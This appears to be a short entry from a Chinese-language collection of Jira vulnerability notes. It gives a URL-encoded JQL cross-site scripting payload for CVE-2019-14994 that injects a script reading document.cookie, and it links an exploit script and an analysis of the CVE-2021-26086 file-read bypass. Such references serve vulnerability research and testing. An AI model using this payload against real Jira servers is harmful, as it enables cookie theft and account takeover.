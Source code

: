 ### CVE-2019-14994
```
jql=issuetype%20%3D%20Epic%20AND%20%22Story%20Points%22%20%3C%3D%20%22%5C%22%3E%3Cscript%3Ealert(document.cookie)%3C%2Fscript%3E%22%20AND%20%22Story%20Points%22%20%3E%3D%20%221%22
```

#### Ref
- https://github.com/bugbounty-site/exploits/blob/master/CVE-2019-14994/exploit.py

### [CVE-2021-26086] Jira受限文件读取绕过
[CVE-2021-26086(CVE-2021-26085)受限文件读取挖掘分析](https://tttang.com/archive/1323/)
